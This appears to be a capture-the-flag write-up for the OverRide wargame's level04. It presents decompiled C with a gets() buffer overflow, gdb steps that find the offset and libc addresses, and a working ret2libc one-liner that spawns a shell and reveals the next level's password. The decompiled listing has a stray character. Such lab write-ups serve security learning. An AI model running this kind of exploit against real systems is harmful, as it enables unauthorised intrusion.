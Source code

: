 ## Step 1: Static & Dynamic Analysis

```c
int main(int argc, const char **argv, const char **envp)
{
  int wait_status;
  int i;
  int j;
  int k;
  char buffer[128];
  __pid_t pid;

  pid = fork();
  memset(buffer, 0, sizeof(buffer));
  k = 0;
  wait_status = 0;
  if ( pid )
  {
    do
    {
      wait(&wait_status);
      i = wait_status;
      if ( (wait_status & 0x7F) == 0 || (j = wait_status, (char)((wait_status & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");w
        return 0;
      }
      k = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
    }
    while ( k != 11 );
    puts("no exec() for you");
    kill(pid, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(buffer);
  }
}
```

### Explanation
This program creates a child process using `fork()`.
The child process uses `get()` to fill a `buffer` without checking its size.
The vulnerability is found in the child process where `get()` fills `buffer` without checking the number of characters `get()` can accept.
This will enable us to make a buffer overflow and perform a `ret2libc` attack.
This attack consists in overriding the copy `eip` copy with the address of the function`system()` and pass the `/bin/sh` string as parameter in order to open a shell terminal.

First we are going to use gdb command:

```bash
(gdb) set follow-fork-mode child
```
to follow every events happening in the child process instead of the parent process.

Now we need to find the offset to override `eip` copy, we set a breakpoint just behind `get()` and look for the padding to reach `eip` copy.

```bash
(gdb) b *0x08048763
(gdb) r < <(python -c 'print("A" * 156 + "BBBBBBBBBBBB")')
Starting program: /home/users/level04/level04 < <(python -c 'print("A" * 156 + "BBBBBBBBBBBB")')
[New process 1801]
Give me some shellcode, k
[Switching to process 1801]
child is exiting...
Breakpoint 4, 0x08048763 in main ()
(gdb) x/4xw $ebp
0xffffd718:    0x41414141    0x42424242    0x42424242    0x42424242
```

Then we find the address of both functions `system()`, `exit()` and the string `/bin/sh` to perform the attack.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find 0xf7e2c000, 0xf7ffe000, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

## Step 2: Exploiting the Binary

```bash
level04@OverRide:$ (python -c 'print ("A" * 156) + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]';cat) | ./level04
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```